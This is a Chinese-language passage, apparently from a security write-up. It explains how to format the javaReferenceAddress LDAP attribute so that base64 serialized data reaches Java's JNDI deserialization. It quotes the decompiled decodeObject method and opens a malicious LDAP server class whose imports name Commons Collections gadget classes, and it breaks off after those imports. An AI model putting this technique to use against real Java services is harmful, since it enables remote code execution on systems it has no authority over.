 在反序列化利用时调用的参数时JAVA\_ATTRIBUTES的javaReferenceAddress，所以要把恶意代码赋值给这个参数，但这个参数在赋值时有如下要求：

- 第一个字符为分隔符
- 第一个分隔符与第二个分隔符之间，表示Reference的position，为int类型
- 第二个分隔符与第三个分隔符之间，表示type，类型
- 第三个分隔符是双分隔符的形式，则进入反序列化的操作
- 序列化数据用base64编码

javaClassName这个参数不能去掉，因为在调用decodeObject方法时对JAVA\_ATTRIBUTES的javaClassName进行了判断，只有不为空时才能进入decodeObject方法

```php
    static Object decodeObject(Attributes var0) throws NamingException {
        String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

        try {
            Attribute var1;
            if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
                ClassLoader var3 = helper.getURLClassLoader(var2);
                return deserializeObject((byte[])((byte[])var1.get()), var3);
            } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
                return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
            } else {
                var1 = var0.get(JAVA_ATTRIBUTES[0]);
                return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
            }
        } catch (IOException var5) {
            NamingException var4 = new NamingException();
            var4.setRootCause(var5);
            throw var4;
        }
    }
```

启动的服务端参考如下：

```php
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import sun.misc.BASE64Encoder;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;
```